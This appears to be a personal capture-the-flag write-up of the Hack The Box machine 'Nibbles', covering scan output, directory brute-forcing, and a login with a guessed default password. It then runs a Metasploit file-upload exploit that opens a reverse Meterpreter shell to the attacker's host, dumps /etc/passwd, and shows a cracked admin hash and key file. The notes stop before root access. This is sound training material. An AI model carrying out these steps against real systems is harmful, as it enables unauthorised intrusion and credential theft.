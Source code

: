 # Nibbles 10.10.10.75 - Linux

 - __User__:
 - __Root__:

## Initial Attempt, 05/05/2020


```shell
Nmap scan report for 10.10.10.75
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

 - Browser visit to `/` is a Hello world page.
 - Dirbuster found: `/icons`, `/icons/small`, and `/server-status` - we have 403 to all
 - `nikto -host 10.10.10.75` results:

```shell
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.75
+ Target Hostname:    10.10.10.75
+ Target Port:        80
+ Start Time:         2020-05-05 22:07:34 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5d, size: 5616c3cf7fa77, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7863 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-05-05 22:12:34 (GMT-4) (300 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

I stumbled my ass into viewing the full source of the default page at port 80 and in the comments it points to the `/nibbleblog/` location. .... facepalm. Ok.

```html
[*] Running module against 10.10.10.75
[*] <b>Hello world!</b>








<!-- /nibbleblog/ directory. Nothing interesting here! -->

[*] Auxiliary module execution completed
```

Running `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75:80/nibbleblog -t 60 -x .php,.txt,.html,.mod,.pw,.sql,.db -s "200,301" -o dumps/nibbles.gobuster.txt`

```shell
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75:80/nibbleblog
[+] Threads:        60
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,301
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     pw,sql,db,php,txt,html,mod
[+] Timeout:        10s
===============================================================
2020/05/05 22:43:59 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
===============================================================
2020/05/05 22:59:30 Finished
===============================================================
```

Browsing `http://10.10.10.75/nibbleblog/content/`, some bits:

```html
<user username="admin">
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<plugin name="Latest posts" author="Diego Najar" version="3.7" installed_at="1512926436">
```

Can access `http://10.10.10.75/nibbleblog/admin/` and browse directories but can't seem to access php files.

By dumb luck I went to `admin.php` and tried two user/PW combos: `admin/admin` and `admin/nibbles` - and I'm in. Doesn't seem like I can access anything new other than the GUI being friendly.

Turns out metasploit had a nibbleblog module:

```shell
msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog
msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.53:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.53:4444 -> 10.10.10.75:38980) at 2020-05-05 23:27:17 -0400
[+] Deleted image.php


meterpreter >
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
meterpreter > cat /proc/version
Linux version 4.4.0-104-generic (buildd@lgw01-amd64-022) \
  (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.5) )\
  #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017
```

Perhaps I can upload files using this path? I can indeed use upload/download in meterpreter to easily move files.

From `shadow.php`, `ea8e3c9799c10e2982c0b54299fd866f32b95f5a` is `nibbles` with salt `8^8!@tv&zb3`

```php
meterpreter > cat keys.php
<?php $_KEYS[0] = "nibbl08ee826e0531a482508227e99b7fb08a02dbc57c";
      $_KEYS[1] = "ebloge3a388b4dc866813a85b82b01b44178e06c3f3d4";
      $_KEYS[2] = "rulez7d1e888dd6f8277ba0c39946a272a027eda97d90"; ?>
```

Moved into `/home/nibbler` and found `user.txt` flag. Output `/etc/passwd`:

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
```

 - PHP is 5.6
 - nibbler's password is not nibbles